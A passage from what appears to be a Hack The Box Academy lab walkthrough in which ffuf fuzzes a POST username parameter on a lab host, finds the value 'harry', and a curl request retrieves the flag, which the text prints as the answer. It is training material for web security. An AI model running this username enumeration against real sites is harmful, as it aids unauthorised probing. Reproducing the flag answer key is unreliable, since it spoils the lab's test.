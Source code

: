 ```
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://faculty.academy.htb:31312/courses/linux-security.php7
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 781
________________________________________________

harry                   [Status: 200, Size: 773, Words: 218, Lines: 53, Duration: 0ms]
:: Progress: [10164/10164] :: Job [1/1] :: 215 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

From the output, students will know that the valid value for the `POST` parameter `username` is `harry`. At last, to attain the flag `HTB{w3b_fuzz1n6_m4573r}`, students need to use `cURL` with the `POST` parameter `username` and the value `harry`:

```shell
curl -s http://faculty.academy.htb:STMPO/courses/linux-security.php7 -X POST -d 'username=harry' | grep "HTB{.*}"
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-y2llhq5gie]─[~]
└──╼ [★]$ curl -s http://faculty.academy.htb:31312/courses/linux-security.php7 -X POST -d 'username=harry' | grep "HTB{.*}"

<div class='center'><p>HTB{w3b_fuzz1n6_m4573r}</p></div>
```

Answer: `HTB{w3b_fuzz1n6_m4573r}`